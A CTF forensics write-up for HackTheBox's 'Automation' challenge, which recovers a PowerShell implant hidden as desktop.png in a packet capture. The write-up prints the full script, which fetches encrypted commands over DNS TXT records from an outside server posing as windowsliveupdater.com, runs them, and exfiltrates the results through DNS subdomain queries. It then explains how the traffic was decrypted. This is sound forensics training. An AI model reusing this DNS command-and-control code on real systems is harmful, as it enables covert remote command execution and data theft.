



# [Cyber Apocalypse CTF 2022 from HackTheBox](../) - Automation

* **Category:** Forensics
* **Points:** 300 points

## Challenge

> Vinyr's threat intelligence is monitoring closely all APT groups from every possible galaxy, especially the most dangerous one, longhir. As stated by an anonymous threat intelligence officer, the malicious actors tend to automate their initial post-exploitation enumeration so they can have less on-keyboard time. You can find such an example in the provided network capture generated by a recent incident. Analyse it and find out what they are up to.


## TL;DR
From the packet capture, get the powershell script disguised as desktop.png. The powershell script sends and receives commands through DNS calls that can be encrypted and decrypted using functions in the script. Extract the encrypted returns from the packet capture, then use CyberChef to get part of the flag; then guess the rest.


## Solution

I have heard of DNS exfiltration but never really explored it in detail, so this was a fun challenge. Loading up the pcap into wireshark and browsing the plain-text traffic, a download of `desktop.png` caught my eye, as the response was base64 and didn't really look like the contents of an image.

[](desktop.png)

Running a `base64 -d` on the file contents reveals the following powershell script:

```powershell
function Create-AesManagedObject($key, $IV) {
    $aesManaged = New-Object "System.Security.Cryptography.AesManaged"
    $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::Zeros
    $aesManaged.BlockSize = 128
    $aesManaged.KeySize = 256
    if ($IV) {
        if ($IV.getType().Name -eq "String") {
            $aesManaged.IV = [System.Convert]::FromBase64String($IV)
     
        }
        else {
            $aesManaged.IV = $IV
     

        }
    }
    if ($key) {

        if ($key.getType().Name -eq "String") {
            $aesManaged.Key = [System.Convert]::FromBase64String($key)
        }
        else {
            $aesManaged.Key = $key
        }
    }
    $aesManaged
}

function Create-AesKey() {
  
    $aesManaged = Create-AesManagedObject $key $IV
    [System.Convert]::ToBase64String($aesManaged.Key)
}

function Encrypt-String($key, $unencryptedString) {
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($unencryptedString)
    $aesManaged = Create-AesManagedObject $key
    $encryptor = $aesManaged.CreateEncryptor()
    $encryptedData = $encryptor.TransformFinalBlock($bytes, 0, $bytes.Length);
    [byte[]] $fullData = $aesManaged.IV + $encryptedData
    $aesManaged.Dispose()
    [System.BitConverter]::ToString($fullData).replace("-","")
}

function Decrypt-String($key, $encryptedStringWithIV) {
    $bytes = [System.Convert]::FromBase64String($encryptedStringWithIV)
    $IV = $bytes[0..15]
    $aesManaged = Create-AesManagedObject $key $IV
    $decryptor = $aesManaged.CreateDecryptor();
    $unencryptedData = $decryptor.TransformFinalBlock($bytes, 16, $bytes.Length - 16);
    $aesManaged.Dispose()
    [System.Text.Encoding]::UTF8.GetString($unencryptedData).Trim([char]0)
}

filter parts($query) { $t = $_; 0..[math]::floor($t.length / $query) | % { $t.substring($query * $_, [math]::min($query, $t.length - $query * $_)) }} 
$key = "a1E4MUtycWswTmtrMHdqdg=="
$out = Resolve-DnsName -type TXT -DnsOnly windowsliveupdater.com -Server 147.182.172.189|Select-Object -Property Strings;
for ($num = 0 ; $num -le $out.Length-2; $num++){
$encryptedString = $out[$num].Strings[0]
$backToPlainText = Decrypt-String $key $encryptedString
$output = iex $backToPlainText;$pr = Encrypt-String $key $output|parts 32
Resolve-DnsName -type A -DnsOnly start.windowsliveupdater.com -Server 147.182.172.189
for ($ans = 0; $ans -lt $pr.length-1; $ans++){
$domain = -join($pr[$ans],".windowsliveupdater.com")
Resolve-DnsName -type A -DnsOnly $domain -Server 147.182.172.189
    }
Resolve-DnsName -type A -DnsOnly end.windowsliveupdater.com -Server 147.182.172.189
}                                       
```

The top of the powershell script are some helper functions for encryption and decryption. 

Below that, we can see a DNS server at `147.182.172.189` masquerading as `windowsliveupdater.com` is setup to:
 1. Retrieve encrypted commands listed as `TXT` records on the server.
 2. Decrypt them.
 3. Execute the commands, and encrypt the output in 32 byte chunks.
 4. Push A records back to the server in the form `ENCRYPTEDOUTPUT.windowsliveupdater.com` in between records for `start.windowsliveupdater.com` and `end.windowsliveupdater.com`, 

We find the first call for for the `TXT` records and locate some base64 strings we will then decrypt.
[)](dnsinput.png)

After loading the script into memory, we can call the Decrypt-String function and return the value:

```powershell
Decrypt-String $key "hhpgWsOli4AnW9g/7TM4rcYyvDNky4yZvLVJ0olX5oA="
whoami
```

Running through the strings, there are a variety of other common post-exploit commands, but no flags.... so let's look at the output.

 It is pretty easy to see the output chunks (duplicates due to send and receive) when you extract the `A` records to a column:
 [)](dnsoutput.png)

 Unfortunately, the encryption happens through creating HEX strings with `[System.BitConverter]::ToString` and there wasn't an easy way to reverse that in powershell where `Decrypt-String` expects base64.

 So, let's clean up the contents and run it in [CyberChef](https://gchq.github.io/CyberChef/#recipe=AES_Decrypt(%7B'option':'Base64','string':'a1E4MUtycWswTmtrMHdqdg%3D%3D'%7D,%7B'option':'Hex','string':'ECABC349D27C0B0FFFD1ACEEDBE06BB6'%7D,'CBC','Hex','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D)&input=QzJFQjAwMEVFNEY5QjM1RDZGMDAxNTAwRTg1NjQyQTIKRENDOEYxQkUyQ0Y0RDY2N0Y0NThDMURFNDZEMjRCMUMKMkUwRjVEOTRFNTI2NDlDNzA0MDJDMUIwQTJGRjdCNDkKRkMzMkRERDY3RjI3NTMwN0E3NEIyQzREMDg2NEIzRjAKNDg2MTg2REE5NDQzRUI3NDdGNzE3QjM5MTFDOTU5REMKN0UzMDA4NDRENjA2NTU0MTBDMzk4ODIzOEU2MTVENjEKNkYzM0QyN0Y2M0NFNEQxRTA2NUE0MTY5MTFCQzUwRDQKNTg3NDk1OTlEMkNCMDhEQjU2MTk4OEVCMjkwMkUwNUQKOTg4NkZEREFDMkJFRDZGNkRBNzM2MzdBRDJGMjBDRjEKOTlCOENFM0Q5REVFMDNDMDE4MEM3RDExOThCNDlDMDIKNzY5RTVFRTRFQUI4OTZEN0QzQkI0NzhFQTE0MDgxNjcKNzk0NzJBMjQzQkZCMDg1MkFGMzcyMzIzRUMxMzI5ODgKM0M4MUEzRjJBRUIxRDNEQUFFODQ5NkUxREJGOTdGNDMKNUFFNDBBMDkyMDNCODkwQzRBMTc0RDc3Q0I3MDI2QzQKRTk5MEE2RkI2NDI0QTc1MDE4MjNBRDMxRDNENkI2MzQKNEM3OTcxQzhENDQ3QzA3OEM0NDcxNzMyQUQ4ODFDMzkKNEJDOEIxQTY2RTBCRUQ0M0REQzM1OTI2OUI1N0QxRDUKRDY4RENEMkE2MDhCRjYxNzE2QkI0N0Q2RkU0RDVDOUQKNkU4QkIyOTgxRjIxNEE4MjM0QjBERDAyMTBDQTk2RUIKMkQ2MzIyQjBGN0YzRDc0OEM0QzlGOEI4MEVGRjVBNjkKMjFBM0QxQTg2MjFBNDlGNEQyOUJDOTg1MUQyNTIzMEI)!

The output of this chunk returns:
```
companyName=Panaman  displayName=Pan Antivirus 4.0, $part2=4utom4t3_but_y0u_c4nt_h1de}  instanceGuid={CD3EA3C2-91CB-4359-90DC-1E909147B6B0}  onAccessScanningEnabled=TRUE  pathToSignedProductExe=panantivirus://  productHasNotifiedUser=  productState=  productUptoDate=TRUE  productWantsWscNotification 
```

$part2 of the flag is `4utom4t3_but_y0u_c4nt_h1de`, and $part1 was easy enough to just guess.

```
HTB{y0u_c4n_4utom4t3_but_y0u_c4nt_h1de}
```
